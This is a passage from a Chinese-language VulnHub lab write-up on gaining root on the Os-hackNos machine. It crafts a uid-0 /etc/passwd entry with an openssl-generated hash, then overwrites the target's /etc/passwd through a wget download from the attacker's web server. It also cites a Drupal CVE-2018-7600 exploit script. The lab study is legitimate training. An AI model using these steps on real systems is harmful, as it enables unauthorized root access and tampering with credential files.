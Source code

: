 可以观察到一个 passwd，这里我就想到可以写入一个新用户并赋予 root 权限从而达到提权的目的

#### ①先利用 kali 生成密码

```
openssl passwd ‐1 ‐salt mrfan mrfan
```

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFC4m8AS9cbMBGpQL9cibfhIIibGqHbibY1w5EfxpKC3jykOwNasly9bWoUm4DodibPSYU0oOQEroRDcLQ/640?wx_fmt=png)

/etc/passwd 字段 **root** 权限形如：

```
用户名:密码:0:0:root:/root:/bin/bash
```

我添加的用户就是如下形式：

```
mrfan:$1$mrfan$KhquGq.uZRnCMui.KH.lb.:0:0:root:/root:/bin/bash
```

先输出当前 vulnhub 的密码（cat /etc/passwd）

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFC4m8AS9cbMBGpQL9cibfhIImZF8bOulzP31ibn2xz3CmRF8vbBYQyBs1fSc1j68WxZPmickLnET1qibA/640?wx_fmt=png)

复制该字段信息并添加新用户字段 保存文本为 1.txt

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFC4m8AS9cbMBGpQL9cibfhIIGd11hbIgcicXubBy2McVXeS6LaEGFlbb4TxVibMz9W7BNCDBSoxj4icBw/640?wx_fmt=png)

同样的方法 利用 wget 进行覆盖原有密码

#### ②开启一个 web 服务

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFC4m8AS9cbMBGpQL9cibfhIIONU2PNOx6U6owiae3UevRADds4F4Ho8CibePXyUOzJdnOvNFbCuoBTLg/640?wx_fmt=png)

此时该桌面是有上面保存的 / etc/passwd 以及新加入用户的字段信息的 且该文件名是 1.txt 文本

#### ③利用命令执行进行下载 并覆盖

```
wget http://192.168.22.10:8888/1.txt -O /etc/passwd
```

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFC4m8AS9cbMBGpQL9cibfhIIDDN0OoFWqkyX0sLVNDGpWgkeLv9BJbLusNvibc3AsP4CuJgtPCsK1TQ/640?wx_fmt=png)

#### ④输出 / etc/passwd 观察是否添加成功

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFC4m8AS9cbMBGpQL9cibfhIIIIsO4w0LW9oftHyYQBu17lnTFhGfbvyib4wKMRVzPiabx9uX17ywDQDg/640?wx_fmt=png)

成功添加了该用户字段

#### ⑤直接上 vulnhub 进行验证

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFC4m8AS9cbMBGpQL9cibfhIIZ7q5o9fdHR94fva677fG1He5aicGSynWUBRJmsjk0wBznPkDzFDvQIg/640?wx_fmt=png)

成功提权到了 root，实验就结束了，剩下的就是找 flag 了，就没什么可操作的了。

### References

`[1]` hackNos: Os-hackNos ~ VulnHub: _https://www.vulnhub.com/entry/hacknos-os-hacknos,401/#description_  
`[2]` CVE-2018-7600/drupa7-CVE-2018-7600.py at master · pimps/CVE-2018-7600 · GitHub: _https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py_